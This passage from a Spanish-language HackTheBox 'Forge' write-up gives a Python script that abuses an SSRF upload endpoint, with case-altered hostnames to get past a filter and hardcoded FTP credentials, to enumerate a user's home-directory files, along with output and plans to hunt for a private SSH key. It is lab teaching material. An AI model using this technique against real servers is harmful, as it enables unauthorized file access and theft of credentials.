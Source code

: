 ```py
#!/usr/bin/python3

import requests
import re

URL = "http://forge.htb"

def main():
    file_wordlist = open("/opt/SecLists/Discovery/Web-Content/common.txt", "r")
    for line in file_wordlist:
        line = line.strip()

        url_to_upload = f"http://admin.foRge.htb/upload?u=ftp://user:heightofsecurity123!@locAlhost/{line}"
        data_post = {"url":url_to_upload,"remote":"1"}
        r = requests.post(URL + '/upload', data=data_post)

        url_with_response = re.findall(r'<strong><a href="(.*?)"', r.text)[0]
        r = requests.get(url_with_response)

        if "404 Not Found" in r.text or "500 Internal Server" in r.text:
            print(f"✘ {line}")
        else:
            print(f"{line} ✓")

if '__main__' == __name__:
    main()
```

Si lo ejecutamos tenemos algunos recursos interesantes:

```bash
❱ python3 fuzz_files.py
✘ .bash_history
.bashrc ✓
✘ .cache
...
✘ .perf
.profile ✓
✘ .rhosts
...
✘ .ssh
...
```

Tenemos dos objetos que por lo general se encuentran en el directorio `/home` de un usuario... Si las cosas son así, podemos pensar que estamos en el directorio `/home` de `user`, por lo que podríamos probar a buscar alguna [llave SSH](https://desarrolloweb.com/articulos/crear-llaves-ssh.html) privada y así obtener acceso al sistema con ella sin necesidad de contraseña (a menos que la propia llave (si existe) tenga pw), probemos:

Si al ejecutar:
